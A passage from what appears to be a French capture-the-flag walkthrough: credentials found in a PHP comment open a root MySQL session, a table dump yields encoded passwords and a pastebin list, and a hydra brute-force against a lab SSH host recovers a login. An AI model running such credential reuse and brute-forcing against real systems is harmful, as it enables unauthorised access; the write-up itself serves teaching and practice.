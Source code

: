 La raison de ce manquement est sans doute liée au fait que les creds soient en commentaire :  

```php
// Take this creds to login in one of the service. 
// Username: snufkin 
// Password: t3ch5nufk1n##
```

De quel service on parle ? Après des échecs il ne s'agit pas de SSH. Le mot de passe est accepté pour l'utilisateur root de MySQL :  

```plain
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mydatabase         |
| performance_schema |
| useful_things      |
+--------------------+
4 rows in set (0.01 sec)
```

Notez la présence de la base *useful\_things* qu'on ne voyait pas précédemment.  

```plain
mysql> select * from user_details; 
+---------+----------+-------------------------------+ 
| User_id | Username | Password                      | 
+---------+----------+-------------------------------+ 
|       1 | Boee     | MSLJDFALkljsdfMIYR=           | 
|       2 | Stinky   | MWQxZHQzc3QxbmcK=             | 
|       3 | Sniff    | N2gzIE11ZGRsM3IK=             | 
|       4 | Snork    | https://pastebin.com/0wstpQk0 | 
+---------+----------+-------------------------------+ 
4 rows in set (0.00 sec)
```

Gotcha ! Le pastebin indiqué contient une série de passwords et adresses emails.  

```plain
$ awk '{ print $1 }' 0wstpQk0.txt > pass.txt
$ hydra -l Joxter -P pass.txt ssh://192.168.56.19 
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway). 

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4 
[DATA] max 16 tasks per 1 server, overall 16 tasks, 383 login tries (l:1/p:383), ~24 tries per task 
[DATA] attacking ssh://192.168.56.19:22/ 
[STATUS] 176.00 tries/min, 176 tries in 00:01h, 207 to do in 00:02h, 16 active 
[STATUS] 128.00 tries/min, 256 tries in 00:02h, 127 to do in 00:01h, 16 active 
[22][ssh] host: 192.168.56.19   login: Joxter   password: 0ffs3cJ0xt3r!!
1 of 1 target successfully completed, 1 valid password found 
```
